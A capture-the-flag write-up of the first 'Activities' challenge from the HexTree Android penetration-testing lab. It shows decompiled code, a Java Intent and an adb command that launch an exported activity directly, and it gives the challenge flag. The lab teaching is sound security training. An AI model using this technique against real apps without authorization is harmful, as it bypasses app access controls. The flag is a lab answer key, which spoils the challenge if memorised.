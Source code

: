 ```yaml
---
title: Hextree Activities Challanges
date: 2025-06-20 20:14 +0300
categories: [Penetration Testing]
tags: [Android Challenges, Activity, Penetration Testing, Hextree]
author: 0xAokiji
---
```


# **Introduction**

In this write-up, I’m sharing how I approached and solved the Android app challenges from the [HexTree Android Penetration Testing Lab](https://app.hextree.io/map). These challenges are made to help you think like a real Android penetration tester, and they cover everything from simple static analysis to more advanced dynamic stuff.

I mainly focused on understanding how the apps work, finding weak points, and then trying to exploit them using different tools and techniques.

Here are some of the tools I used along the way:

- **JADX**, **APKTool** – for looking into the app’s code
- **Frida**, **ADB** – for playing with the app at runtime
- **Android Studio**, **logcat** – for debugging and seeing what's going on behind the scenes

In each challenge, I’ll give

- A quick overview of what the app does
- The vulnerability or trick I found
- How I exploited it
- And finally, the flag or result I got

### In the next part, I’ll be showing the challenges related to **Activities.**

<img src="/assets/img/2025-06-20-hextree-activities-challenges/image.png" alt="Custom Domain" style="width: 400px; height: 700px;" />
_My Appliction_

## Challenge 1: Basic_Exported

### Code Snippet (From Decompiled Source)

```java
public class Flag1Activity extends AppCompactActivity {
    public Flag1Activity() {
    }
    protected void onCreate(Bundle bundle) {
        super.onCreate(bundle);
        this.f = new LogHelper(this);
        this.f.addTag("basic-main-activity-avd2");
        success(this);
    }
}
```

- Launch the `Flag1Activity` directly to trigger the `success()` method and capture the flag.

## Solution

### Using Java Code (within another Activity):

```java
Intent intent = new Intent();
ComponentName componentName = new ComponentName(
    "io.hextree.attacksurface",
    "io.hextree.attacksurface.activities.Flag1Activity"
);
intent.setComponent(componentName);
startActivity(intent);
```

<img src="/assets/img/2025-06-20-hextree-activities-challenges/Pasted image.png" alt="Custom Domain" style="width: 900px; height: 100px;" />

**Flag = HXT{basic-exported-activity-1bh7sd}**


## Using ADB (recommended for quick testing):

- **`adb shell am start -n io.hextree.attacksurface/.activities.Flag1Activity`**